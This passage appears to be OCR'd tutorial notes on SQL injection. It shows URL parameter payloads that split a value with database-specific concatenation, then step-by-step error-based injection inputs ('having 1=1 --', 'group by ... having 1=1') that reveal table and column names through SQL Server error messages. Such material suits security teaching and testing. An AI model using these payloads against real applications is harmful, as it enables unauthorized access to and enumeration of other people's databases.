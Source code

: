 Web applications use various databases, such as Oracle, MySQL, MS SQL, and PostgreSQL at the   back end for processing and storing data. For different types of databases, you should manipulate  the parameter values using different techniques.

**For Microsoft SQL Server**

- Actual URL
  http://example.com/showproducts.php?category=bikes
- Modified URL
  http://example.com/showproducts.php ?category=bi'+'kes

**For MySQL Server**

- Actual URL
  http://example.com/showproducts.php?category=bikes

- Modified URL
  http://example.com/showproducts.php?category=bi' 'kes

**PostgreSQL and Oracle Servers**

- Actual URL
  http://example.com/showproducts.php?category=bikes
- Modified URL
  http://example.com/showproducts.php?category=bi'| |'kes

### Determine the Database Schema using Error-Based SQL Injection
Determining the table name, column names, and data types used in the database of the target application using error-based SQL injection is as follows.

**Test 1**

1. Enter a single quote (‘) in the username field and any password in the Password field to check for application vulnerabilities to SQL injection.

2. If it does not generate an error message, the application is not vulnerable to SQL 

**Test 2**

1. Enter **‘having 1=1 --** in username field and any password in Password field

2. It outputs error message as:
   *Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’*
   *[Microsoft] [ODBC SQL Server Driver] [SQL Server] Column*
   *USER_TEST.id is invalid in the select list because it is not*
   *contained in an aggregate function and there is no GROUP BY*
   *clause*

3. The error message displays name of the table (USER_TEST) and the name of the first field (id).

**Test 3**

1. Enter **'group by USER_TEST.id having 1=1 -** in the Username field and any password in the Password field.
2. It outputs error message as:
   *Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’*
   *Microsoft] [ODBC SQL Server Driver] [SQL Server] Column*
   *‘USER_TEST.username' is invalid in the select list because it*
   *is not contained in either aggregate function or the GROUP BY*
   *clause.*
3. The error message displays name of the second field (username).
